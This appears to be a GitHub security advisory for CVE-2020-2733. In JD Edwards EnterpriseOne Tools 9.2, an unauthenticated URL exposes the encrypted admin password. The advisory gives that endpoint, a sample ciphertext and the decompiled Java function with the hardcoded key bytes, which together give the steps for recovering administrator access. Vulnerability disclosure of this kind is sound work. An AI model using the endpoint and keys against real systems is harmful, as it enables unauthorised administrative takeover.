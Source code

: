 # CVE-2020-2733 - JD Edwards EnterpriseOne Tools admin password not adequately protected

![image](https://github.com/user-attachments/assets/c8daf3e8-62a4-4bf7-b4ae-2293b2b8b6c9)
<br>Pic 1: Decrypt the string<br>
![image](https://github.com/user-attachments/assets/4f9747ca-77b2-47ff-a34a-b20a1b997633)
<br>Pic 2: Decrypt by giving the URL<br>

### [CVE-2020-2733] 
Application: JD Edwards EnterpriseOne Tools
<br>Versions Affected: JD Edwards EnterpriseOne Tools 9.2
<br>Vendor URL: https://oracle.com/
<br>Bug: Information disclosure
<br>Reported: September 18, 2019
<br>Date of Public Advisory: August 23, 2022
<br>Reference: [https://www.oracle.com/security-alerts/cpuapr2020.html, https://redrays.io/cve-2020-2733-jd-edwards/]
<br>Nuclei Template for detection: https://github.com/projectdiscovery/nuclei-templates/blob/68f0ad5fa2f54a08959e2d68633174750fcb4952/http/cves/2020/CVE-2020-2733.yaml#L2

### Description

ADVISORY INFORMATION
<br>Title: [CVE-2020-2733] JD Edwards EnterpriseOne Tools admin password not adequately protected
<br>Risk: Critical
<br>Advisory URL: https://redrays.io/cve-2020-6369-patch-bypass/
<br>Date published: 23.08.2022

### VULNERABILITY INFORMATION

<br>Remotely Exploitable: Yes
<br>Locally Exploitable: No

<br>CVSS Information : CVSS v3.1 Base Score: 9.8 / 10 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

### VULNERABILITY DESCRIPTION

JD Edwards EnterpriseOne Tools 9.2 or lower versions allow unauthenticated attackers to bypass the authentication and get Administrator rights on the system.

### TECHNICAL DESCRIPTION

The vulnerability was discovered in the Oracle JD Edwards Management portal. To reproduce the vulnerability, you need to open (without authentication) the following URL

http://JDEdwards:8999/manage/fileDownloader?sec=1 

When you open the URL, you can see pseudo-random text in the page.
![unnamed-2-e1661254647723](https://github.com/user-attachments/assets/69419675-4796-46c1-8397-29e6f1e27c83)


```code
ACHCJKGJHCJKBLLALOLOJFCABEFHOALDDAOFNGGANPDB
```
<br>After analyzing the JD Edwards jar files, we discovered that this pseudo-random data is – THE ENCRYPTED ADMIN PASSWORD!

The encryption keys are located in the following function

```java
private static void genKeys(byte[] paramArrayOfByte1, byte[] paramArrayOfByte2, byte paramByte)
{
int i = 0;
byte[] arrayOfByte1 = { 65, 4, 95, 12, 88, 41, 6, 114, 119, 93, 37, 68, 75, 19, 49, 46 };
byte[] arrayOfByte2 = { 107, 34, 26, 94, 68, 41, 119, 48, 3, 88, 28, 97, 5, Byte.MAX_VALUE, 77, 54 };
byte[] arrayOfByte3 = { 36, 89, 113, 109, 38, 15, 7, 66, 76, 115, 16, 53, 106, 94, 27, 56 };
int j = paramByte >> 4;
int k = paramByte & 0xF;
int m = arrayOfByte3[j];
for (i = 0; i < 16; i++) {
paramArrayOfByte1[i] = ((byte)(arrayOfByte1[i] ^ m));
}
m = arrayOfByte3[k];
for (i = 0; i < 16; i++) {
paramArrayOfByte2[i] = ((byte)(arrayOfByte2[i] ^ m));
}
}
```

As a result, you will get an admin password, and you can deploy any application in the JD Edwards portal.
![image](https://github.com/user-attachments/assets/6247c870-067b-43c7-859c-aa3ced2b1fd4)

Reference/ Credit:
https://redrays.io/blog/cve-2020-2733-jd-edwards/


